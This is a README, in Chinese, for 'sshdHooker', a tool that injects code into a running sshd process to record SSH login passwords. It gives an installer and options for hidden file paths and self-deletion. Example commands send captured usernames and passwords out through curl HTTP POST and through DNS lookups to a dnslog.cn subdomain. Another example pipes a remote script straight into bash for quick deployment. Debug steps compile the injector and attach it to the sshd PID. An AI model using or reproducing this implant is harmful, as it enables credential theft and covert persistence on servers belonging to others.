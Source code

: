 # what's this?

注入SSHD之后就能记录下密码或者做其他操作。

需要关闭selinux

# how to use

## auto installer
密码记录器一键安装，仅暂时支持x64

直接执行命令
```
bash install.sh
```

直接运行后ssh密码登录，记录地址为/tmp/.password.txt，默认so地址为/tmp/hello.so，默认注入器名字为/tmp/.i


其他参数：
```
    -e   修改so文件的路径，默认/tmp/hello.so
    -o   修改注入器的路径，默认/tmp/.i.
    -m   修改mode默认值为0，输出到文件，默认记录地址为/tmp/.password.txt ，如果值为1，则会改为命令行模式
    -p   修改payload，默认值为/tmp/.password.txt，如果mode值为1，则会使用snsprintf来格式化命令并且输出，请确保字符串中包含两个%s，用于格式化用户名和密码
    -d   自动删除，设置为anyone则抓到密码后立刻删除，否则则抓取到设置的指定用户名后删除
    -l   指定libc路径，默认寻址是寻找libc-xxxx.so和libc.so.x的方案，但是不排除会有其他奇奇怪怪的libc名称，所以添加了手动指定功能，详情可以查看/proc/pid/maps里找到libc名字
```
## 例子

https发送密码
```
bash install.sh -p "curl -X POST -d 'username=%s\&password=%s' http://127.0.0.1" -m 1
```

dns发送密码并且自动删除
```
bash install.sh -p 'ping `echo %s-%s|xxd -ps`.k9lovy.dnslog.cn -c 1' -m 1 -d anyone
```

远程快速自动部署并自动删除
```
curl -L https://github.com/9bie/sshdHooker/releases/download/1.0.1/sshdHooker.sh | bash -s -- -d anyone
```

## debug

执行
```
gcc -shared inject_got.c -ldl -fPIC -o test2.so -std=c99

mv test2.so /tmp/hello.so

gcc sshdHooker.c shellcode.s -g -o inject -ldl -lpthread

sudo ./inject sshd_pid
```

然后等待用户连接SSH并且登录成功，密码保存于/tmp/.password.txt

# todo

 - 增加x86/arm支持
 - bypass SELINUX